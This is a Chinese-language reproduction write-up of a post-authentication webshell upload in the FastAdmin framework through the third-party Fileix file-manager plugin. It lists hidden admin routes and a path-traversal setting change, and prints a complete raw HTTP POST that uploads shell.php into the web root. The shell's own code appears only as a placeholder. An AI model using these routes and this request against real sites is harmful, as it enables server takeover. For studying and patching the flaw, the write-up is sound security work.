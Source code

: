 FastAdmin 第三方插件后台getshell
================================

一、漏洞简介
------------

FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell

二、漏洞影响
------------

三、复现过程
------------

开启phpstudy本地搭建

1.png

安装成功，新版源码的后台地址是随机生成的

2.png

后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉

3.png

Fileix文件管理器离线安装包官方下载地址：

    https://www.fastadmin.net/store/fileix.html

点击离线安装，选择上传你下载的ZIP离线安装包

插件安装完成会自动启用，默认路径配置是这样的

4.png

然后打开是这样的

5.png

可以修改为 ../../，那么再打开就是这样的

6.png

然后浅显易懂，直接右键上传php文件就能getshell

7.png

上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容

8.png

后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法

### 通用方法

1.插件管理地址：

    /admin/addon?ref=addtabs

进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包

9.png

2.文件管理地址/读取所有文件地址：

    /admin/fileix?ref=addtabs/admin/fileix/lst

真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址11.png

3.上传poc：

    POST /admin/fileix/data?target=%2F HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 1050
    Origin: http://www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWST
    Accept: */*
    Referer: http://www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8
    Cookie: PHPSESSID=xxxxxxxx
    Connection: close

    ------WebKitFormBoundaryrZmyeAB3SciJDWST
    Content-Disposition: form-data; name="upload"; filename="shell.php"
    Content-Type: application/octet-stream

    code
    ------WebKitFormBoundaryrZmyeAB3SciJDWST
    Content-Disposition: form-data; name="action"

    upload
    ------WebKitFormBoundaryrZmyeAB3SciJDWST
    Content-Disposition: form-data; name="target"

    /public/
    ------WebKitFormBoundaryrZmyeAB3SciJDWST--

修改host地址post过去

11.png

利用poc成功上传shell

12.png

参考链接
--------

> https://mp.weixin.qq.com/s?\_\_biz=MzU5NjQ0NTE4NA==&mid=2247484075&idx=1&sn=11e65cec3f039999f866698506a36f28&chksm=fe63d3c4c9145ad2e21001823f540bb0bd6c23a6ec664140b822469da4d8d54b861ef018ea7f&scene=126&sessionid=1593434570&key=b5fefcfa89041be749d30d0e2266e1cb7156cb2e90b17f7b536842ddf2d3b5556f1173d87f4fc7179d317629e5d19d9463f24c10281da8b2849c4199764adf891e9e03d0f72d4d5180567f296802b53b&ascene=1&uin=MjQ5MTY5NzI0MQ%253D%253D&devicetype=Windows+10+x64&version=6209007b&lang=zh\_CN&exportkey=A1vHlcBsOQV07c8LhOThsow%253D&pass\_ticket=tAsIlNPv68VYYzmpmtjDaAEG6W%252FH9DIMUJnYgeEjVPNSs7%252BvoJq%252B0MFM2dMHbfEf
